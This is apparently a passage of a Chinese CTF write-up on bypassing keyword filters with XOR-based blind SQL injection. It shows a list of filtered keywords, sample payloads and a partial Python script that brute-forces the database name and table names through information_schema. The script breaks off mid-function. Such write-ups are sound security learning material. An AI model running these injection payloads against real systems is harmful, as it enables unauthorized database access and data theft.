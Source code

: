 先测bs过滤：

结果非常的amazing，居然整个字典里的东西全部给我按HardSQL里的方法强制过滤了，那我还玩啥了我请问呢...

（哦其实除了from关键字没有被过滤

不过其实我们还有一个注入点！那就是前面的5个按钮！其传入了一个id参数！

对id测过滤，这些符号/关键字被过滤：

! * & % # @ + % | --+ /**/ && || and if union by like rlike limit mid handler

在union,or,and都被完全过滤的前提下，我们可以考虑异或注入

?id=1^(length(database())=4)^1

因为%被过滤了所以结尾就不加%23了

可以看到返回的相当于是id=1的页面！所以这也就意味着length(database())=4是True！

得到了数据库名字的长度之后，用盲注的方法脚本爆破：

值得注意的是如果尝试用error-type注入会直接回显'Error!'，这条路也被堵死了

```python
import requests
import sys
import time

def get_DBlen(url):
    for i in range(1, 21):
        db_url = url + f"?id=1^(length(database())={str(i)})^1"
        r = requests.get(db_url)
        if "Click" in r.text:
            return i
    return -1

def get_DBname(url, length):
    DBname=""
    for i in range(1, length + 1):
        max = 122
        min = 41 # All Common ASCII characters 
        while min < max:
            mid = (min + max) >> 1
            db_url = url + f"?id=1^(ascii(substr(database(),{str(i)},1))>{str(mid)})^1"
            r = requests.get(db_url)
            if "Click" in r.text:
                min = mid + 1
            else:
                max = mid       
        mid = min
        DBname += chr(mid)
    return DBname

def get_TBlen(url):
    for i in range(1, 100):
        db_url = url + f"?id=1^(length((select(group_concat(table_name))from(information_schema.tables)where(table_schema)='geek'))={str(i)})^1"
#        print(db_url)
        r = requests.get(db_url)
        if "Click" in r.text:
            return i
    return -1

def get_TBname(url, length):
    tbname = ""
    for i in range(1, length + 1):
        min = 41
        max = 122
```